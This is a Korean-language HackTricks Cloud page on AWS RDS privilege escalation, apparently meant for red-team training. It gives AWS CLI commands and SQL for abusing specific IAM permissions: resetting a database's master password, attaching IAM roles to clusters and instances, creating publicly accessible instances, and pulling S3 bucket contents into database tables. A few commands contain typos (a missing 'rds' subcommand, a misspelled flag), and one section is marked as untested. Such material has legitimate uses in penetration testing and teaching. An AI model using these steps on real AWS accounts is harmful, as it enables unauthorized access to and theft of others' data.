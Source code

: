 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - 관계형 데이터베이스 서비스

RDS에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

이 권한을 가진 공격자는 **마스터 사용자 비밀번호를 수정**하고 데이터베이스 내에서 로그인할 수 있습니다:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
데이터베이스에 **연락할 수 있어야 합니다** (일반적으로 내부 네트워크에서만 접근 가능합니다).
{% endhint %}

**잠재적 영향:** 데이터베이스 내에서 민감한 정보를 찾습니다.

### rds-db:connect

[**문서**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)에 따르면, 이 권한을 가진 사용자는 DB 인스턴스에 연결할 수 있습니다.

### RDS 역할 IAM 권한 남용

#### Postgresql (Aurora)

{% hint style="success" %}
**`SELECT datname FROM pg_database;`**를 실행했을 때 **`rdsadmin`**이라는 데이터베이스를 찾으면 **AWS postgresql 데이터베이스**에 있는 것입니다.
{% endhint %}

먼저 이 데이터베이스가 다른 AWS 서비스에 접근하는 데 사용되었는지 확인할 수 있습니다. 설치된 확장을 살펴보면 확인할 수 있습니다:
```sql
SELECT * FROM pg_extension;
```
만약 **`aws_s3`**와 같은 것을 발견하면, 이 데이터베이스가 **S3에 대한 어떤 종류의 접근 권한**을 가지고 있다고 가정할 수 있습니다 (다른 확장자도 있습니다, 예: **`aws_ml`** 및 **`aws_lambda`**).

또한, **`aws rds describe-db-clusters`**를 실행할 수 있는 권한이 있다면, **`AssociatedRoles`** 필드에서 **클러스터에 연결된 IAM 역할**이 있는지 확인할 수 있습니다. 만약 있다면, 데이터베이스가 **다른 AWS 서비스에 접근할 수 있도록 준비되었다고** 가정할 수 있습니다. **역할의 이름**(또는 역할의 **권한**을 얻을 수 있다면)을 기반으로 데이터베이스가 어떤 추가 접근 권한을 가지고 있는지 **추측**할 수 있습니다.

이제 **버킷 안의 파일을 읽으려면** 전체 경로를 알아야 합니다. 다음과 같이 읽을 수 있습니다:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
만약 **원시 AWS 자격 증명**이 있다면, 다음과 같이 S3 데이터에 접근할 수 있습니다:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **은 S3에 접근하기 위해 어떤 파라미터 그룹 변수를 변경할 필요가 없습니다.**
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
mysql 내부에서 **`SELECT User, Host FROM mysql.user;`** 쿼리를 실행했을 때 **`rdsadmin`**이라는 사용자가 있다면, **AWS RDS mysql db** 내부에 있다고 가정할 수 있습니다.
{% endhint %}

mysql에서 **`show variables;`**를 실행하고 **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**와 같은 변수에 값이 있다면, 데이터베이스가 S3 데이터에 접근할 준비가 되어 있다고 가정할 수 있습니다.

또한, **`aws rds describe-db-clusters`**를 실행할 수 있는 권한이 있다면 클러스터에 **연관된 역할**이 있는지 확인할 수 있으며, 이는 일반적으로 AWS 서비스에 대한 접근을 의미합니다.

이제 **버킷 내의 파일을 읽으려면** 전체 경로를 알아야 합니다. 다음과 같이 읽을 수 있습니다:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

`rds:AddRoleToDBCluster` 및 `iam:PassRole` 권한을 가진 공격자는 **기존 RDS 인스턴스에 지정된 역할을 추가할 수 있습니다**. 이는 공격자가 **민감한 데이터에 접근**하거나 인스턴스 내의 데이터를 수정할 수 있게 할 수 있습니다.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**잠재적 영향**: RDS 인스턴스의 민감한 데이터에 대한 접근 또는 데이터에 대한 무단 수정.\
일부 DB는 추가 구성이 필요하다는 점에 유의하십시오. 예를 들어 Mysql은 매개변수 그룹에서 역할 ARN을 지정해야 합니다.

### `rds:CreateDBInstance`

이 권한만으로도 공격자는 **이미 존재하고 IAM 역할이 연결된 클러스터 내에 새로운 인스턴스**를 생성할 수 있습니다. 그는 마스터 사용자 비밀번호를 변경할 수는 없지만, 새로운 데이터베이스 인스턴스를 인터넷에 노출할 수 있을지도 모릅니다:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: 테스트
{% endhint %}

`rds:CreateDBInstance` 및 `iam:PassRole` 권한을 가진 공격자는 **지정된 역할이 연결된 새로운 RDS 인스턴스를 생성할 수 있습니다**. 공격자는 이후 **민감한 데이터에 접근하거나** 인스턴스 내의 데이터를 수정할 수 있습니다.

{% hint style="warning" %}
연결할 역할/인스턴스 프로필의 일부 요구 사항 ( [**여기**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)에서):

* 프로필은 귀하의 계정에 존재해야 합니다.
* 프로필은 Amazon EC2가 가정할 수 있는 IAM 역할을 가져야 합니다.
* 인스턴스 프로필 이름과 관련된 IAM 역할 이름은 `AWSRDSCustom` 접두사로 시작해야 합니다.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**잠재적 영향**: RDS 인스턴스의 민감한 데이터에 대한 접근 또는 데이터에 대한 무단 수정.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance` 및 `iam:PassRole` 권한을 가진 공격자는 **기존 RDS 인스턴스에 지정된 역할을 추가할 수 있습니다**. 이는 공격자가 **민감한 데이터에 접근**하거나 인스턴스 내의 데이터를 수정할 수 있게 할 수 있습니다.

{% hint style="warning" %}
DB 인스턴스는 클러스터 외부에 있어야 합니다.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**잠재적 영향**: RDS 인스턴스의 민감한 데이터에 대한 접근 또는 데이터에 대한 무단 수정.

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
